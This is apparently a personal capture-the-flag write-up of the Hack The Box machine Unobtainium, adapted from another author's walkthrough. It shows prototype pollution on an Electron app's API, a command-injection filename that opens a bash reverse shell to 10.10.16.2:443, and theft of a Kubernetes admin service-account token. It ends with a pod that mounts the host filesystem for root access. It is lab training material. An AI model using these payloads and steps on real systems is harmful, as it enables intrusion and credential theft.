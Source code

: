 ### Prototype Pollution Attack
* https://blog.0daylabs.com/2019/02/15/prototype-pollution-javascript/
* https://codeburst.io/what-is-prototype-pollution-49482fc4b638

### Pull Source
The `postinst` file suggested this was an Electron application, which is a framework for building cross-platform desktop applications using JavaScript, HTML, and CSS. Tons of populate applications are built on Electron, like VSCode, Slack, Discord, Atom, Typora, and Mailspring.

```bash
asar extract opt/unobtainium/resources/app.asar app.asar/
```

### Writeups, foothold and enum
I mostly copied from below to make myself undertand better.

https://0xdf.gitlab.io/2021/09/04/htb-unobtainium.html#

##### Prototype Pollution Attack to get foothold
```bash
curl -X PUT http://unobtainium.htb:31337/ -H 'Content-Type: application/json' -d '{"auth": {"name": "felamos", "password": "Winter2021"}, "message": {"test": "something", "__proto__": {"canUpload": true}}}'

curl -X POST http://unobtainium.htb:31337/upload -H 'Content-Type: application/json' -d '{"auth": {"name": "felamos", "password": "Winter2021"}, "filename": "test"}'

curl -X POST http://unobtainium.htb:31337/upload -H 'Content-Type: application/json' -d '{"auth": {"name": "felamos", "password": "Winter2021"}, "filename": "x; bash -c \"bash >& /dev/tcp/10.10.16.2/443 0>&1\""}'

python -c 'import pty;pty.spawn("bash")'

root@webapp-deployment-5d764566f4-mbprj:/usr/src/app# ^Z
[1]+  Stopped                 nc -lnvp 443
oxdf@parrot$ stty raw -echo; fg

reset

reset: unknown terminal type unknown
Terminal type? screen
root@webapp-deployment-5d764566f4-mbprj:/usr/src/app# 
```

##### Lateral movement to another pod
```bash
kubectl auth -h --token $(cat default-token) --server https://unobtainium.htb:8443 --certificate-authority ca.crt

kubectl auth can-i --list --token $(cat default-token) --server https://unobtainium.htb:8443 --certificate-authority ca.crt

kubectl get pods -n dev --token $(cat default-token) --server https://unobtainium.htb:8443 --certificate-authority ca.crt
NAME                                  READY   STATUS    RESTARTS       AGE
devnode-deployment-776dbcf7d6-sr6vj   1/1     Running   3 (114d ago)   114d
devnode-deployment-776dbcf7d6-7gjgf   1/1     Running   3 (114d ago)   114d
devnode-deployment-776dbcf7d6-g4659   1/1     Running   3 (114d ago)   114d


kubectl describe pod devnode-deployment-776dbcf7d6-sr6vj -n dev --token $(cat default-token) --server https://unobtainium.htb:8443 --certificate-authority ca.crt

Name:             devnode-deployment-776dbcf7d6-sr6vj
Namespace:        dev
Priority:         0
Service Account:  default
Node:             unobtainium/10.129.136.226
Start Time:       Mon, 29 Aug 2022 21:32:21 +1200
Labels:           app=devnode
                  pod-template-hash=776dbcf7d6
Annotations:      <none>
Status:           Running
IP:               10.42.0.33
IPs:
  IP:           10.42.0.33
Controlled By:  ReplicaSet/devnode-deployment-776dbcf7d6
Containers:
  devnode:
    Container ID:   docker://d210cfcf02a8b3fd035fadb8cf88e3ccee93da9e52732efea0c6ea6a498880a0
    Image:          localhost:5000/node_server
    Image ID:       docker-pullable://localhost:5000/node_server@sha256:e965afd6a7e1ef3093afdfa61a50d8337f73cd65800bdeb4501ddfbc598016f5
    Port:           3000/TCP
    Host Port:      0/TCP
    State:          Running
      Started:      Wed, 21 Dec 2022 18:22:32 +1300
    Last State:     Terminated

curl -X PUT http://10.42.0.33:3000/ -H 'Content-Type: application/json' -d '{"auth": {"name": "felamos", "password": "Winter2021"}, "message": {"test": "something", "__proto__": {"canUpload": true}}}'

curl -X POST http://10.42.0.33:3000/upload -H 'Content-Type: application/json' -d '{"auth": {"name": "felamos", "password": "Winter2021"}, "filename": "x; bash -c \"bash >& /dev/tcp/10.10.16.2/443 0>&1\""}'
```

### List namespaces
```bash
kubectl get namespaces --token $(cat default-token) --server https://unobtainium.htb:8443 --certificate-authority ca.crt

NAME              STATUS   AGE
default           Active   114d
kube-system       Active   114d
kube-public       Active   114d
kube-node-lease   Active   114d
dev               Active   114d
```

### Check permission under kube-system
```bash
kubectl auth can-i --list -n kube-system --token $(cat dev-token) --server https://unobtainium.htb:8443 --certificate-authority ca.crt

Resources                                       Non-Resource URLs                     Resource Names   Verbs
selfsubjectaccessreviews.authorization.k8s.io   []                                    []               [create]
selfsubjectrulesreviews.authorization.k8s.io    []                                    []               [create]
secrets                                         []                                    []               [get list]
                                                [/.well-known/openid-configuration]   []               [get]
                                                [/api/*]                              []               [get]
                                                [/api]                                []               [get]
                                                [/apis/*]                             []               [get]
                                                [/apis]                               []               [get]
                                                [/healthz]                            []               [get]
                                                [/healthz]                            []               [get]
                                                [/livez]                              []               [get]
                                                [/livez]                              []               [get]
                                                [/openapi/*]                          []               [get]
                                                [/openapi]                            []               [get]
                                                [/openid/v1/jwks]                     []               [get]
                                                [/readyz]                             []               [get]
                                                [/readyz]                             []               [get]
                                                [/version/]                           []               [get]
                                                [/version/]                           []               [get]
                                                [/version]                            []               [get]
                                                [/version]                            []               [get]
```

### List secrets resource via the kube-system permission
```bash
kubectl get secrets -n kube-system --token $(cat dev-token) --server https://unobtainium.htb:8443 --certificate-authority ca.crt

c-admin-token-b47f7                                  kubernetes.io/service-account-token   3      114d
```

### Get the admin token
```bash
kubectl describe secret c-admin-token-b47f7 -n kube-system --token $(cat dev-token) --server https://unobtainium.htb:8443 --certificate-authority ca.crt
```

### Verify that it's full admin
```bash
kubectl auth can-i --list --token $(cat cadmin-token) --server https://unobtainium.htb:8443 --certificate-authority ca.crt

Resources                                       Non-Resource URLs                     Resource Names   Verbs
*.*                                             []                                    []               [*]
                                                [*]                                   []               [*]
selfsubjectaccessreviews.authorization.k8s.io   []                                    []               [create]
selfsubjectrulesreviews.authorization.k8s.io    []                                    []               [create]
                                                [/.well-known/openid-configuration]   []               [get]
                                                [/api/*]                              []               [get]
                                                [/api]                                []               [get]
                                                [/apis/*]                             []               [get]
                                                [/apis]                               []               [get]
                                                [/healthz]                            []               [get]
                                                [/healthz]                            []               [get]
                                                [/livez]                              []               [get]
                                                [/livez]                              []               [get]
                                                [/openapi/*]                          []               [get]
                                                [/openapi]                            []               [get]
                                                [/openid/v1/jwks]                     []               [get]
                                                [/readyz]                             []               [get]
                                                [/readyz]                             []               [get]
                                                [/version/]                           []               [get]
                                                [/version/]                           []               [get]
                                                [/version]                            []               [get]
                                                [/version]                            []               [get]
```

### Root as Filesystem by creating a new pod
##### Find Image
As with previous docker attacks, the idea is to create a new container and map the host filesystem into the container, where I will be root. That is basically root access to the host filesystem. The YAML files described in the articles all involve pulling docker images from the internet. Because Unobtainium won’t have internet access, I’ll opt to work from an image that’s already on the host.

I can get the full YAML for a pod with `get pod [name] -n [namespace]`:

I’ll loop over all the pods and see what images they are running. There’s only two:

```bash
kubectl get pods --all-namespaces --token $(cat cadmin-token) --server https://unobtainium.htb:8443 --certificate-authority ca.crt | grep -v NAMESPACE | while read line; do ns=$(echo $line | awk '{print $1}'); name=$(echo $line | awk '{print $2}'); kubectl get pod $name -o yaml -n $ns --token $(cat cadmin-token) --server https://unobtainium.htb:8443 --certificate-authority ca.crt | grep '  - image: '; done | sort -u

  - image: localhost:5000/dev-alpine
  - image: localhost:5000/node_server
```

##### Malicious Pod with two alternative yamls
I choose alpine because it’s smaller, node_server works too.

I’ve added the host filesystem `/` as a mount point inside the container.

Pods (like Docker containers) run until their main command is done. I’ll just add a long sleep as the main command (`tail -f /dev/null` is another good one to hold priority). And if we don't give it a startup command, it would launch and immediately die.

###### Excute In Pod `exec`
```bash
kubectl apply -f root.yaml --token $(cat cadmin-token) --server https://unobtainium.htb:8443 --certificate-authority ca.crt

kubectl exec baturu02 --stdin --tty -n kube-system --token $(cat cadmin-token) --server https://unobtainium.htb:8443 --certificate-authority ca.crt -- /bin/sh

/ # cat mnt/root/root.txt
```

###### Shell via launch Pod `get pod`
```bash
kubectl apply -f root2.yaml --token $(cat cadmin-token) --server https://unobtainium.htb:8443 --certificate-authority ca.crt

kubectl --token $(cat cadmin-token) --server https://unobtainium.htb:8443 --certificate-authority ca.crt get pod baturu11 -n kube-system
```